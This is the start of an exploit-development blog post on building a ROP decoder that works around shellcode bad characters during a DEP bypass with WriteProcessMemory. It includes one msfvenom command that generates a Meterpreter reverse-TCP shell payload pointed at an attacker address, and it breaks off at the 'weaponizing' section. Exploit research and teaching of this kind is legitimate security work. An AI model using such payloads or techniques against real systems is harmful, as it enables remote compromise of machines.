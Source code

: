 ```yaml
---
title: "ROPGadget: Writing a ROPDecoder"
classes: wide
header:
  teaser: /assets/images/ropdecoder.png
ribbon: red
description: "An in-depth blog on how to create a ROPDecoder."
categories:
  - Exploit Development
tags:
  - Exploit Development
  - ROP
  - ROPGadget
  - Exploitation
  - zero day
  - 0day
  - cve
toc: true
---
```

# Introduction

Welcome All!, In this blog post we will be talking about creating a `ROPDecoder` from scratch as many people face issues in understand the automated process of it. 	And note that you must know how to bypass `DEP` and what's `ROPGadgets`, We wil be Starting from selecting our `ROP` Gadget, Going to encoding and decoding our shellcode manually, Then moving further to automate the process in 2 ways, A basic way that still needs a small interaction from us, And more advanced way that automate it by `90%`, And we would just need to provide our Gadget to it. 

# The Case

Why do we need to have a `ROPDecoder` ?, First, We need to fix the bad characters problems, So when we are generating a shellcode using `msfvenom` as example, We always provide the bad characters that could crash our exploit using `-b` argument (`ex: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.6 LPORT=1337 -b "\x00\x20\x21"`), What will happen here is that the `encoder` will encode these bad characters, After that during the runtime or the execution of the shellcode the shellcode will retrive the encoded bad characters and then complete the execution, But when we are bypassing mitigations like `DEP` using `WriteProcessMemory` API, Our exploit will crash, As the goal of this API is to write data from place to another in the memory, The place that the API will write to, Have to be marked with execution permissions, And such locations in memory are in the `.text` or code section of the software So, The issue with it is that the location is not writable (During the execution of `WriteProcessMemory` it will change the location permission to writable and after writing the data, It will retrive the old permissions to it), Therefor, As the location is not writable, Then when the decoder in the shellcode try to replace the bad characters which requires to write or change in it's place, It needs write permissions which are not avaliable. As a result, It will cause a crash and won't be executed and `Access Violation` will be rasied.

# Weponizing w/ Gadgets
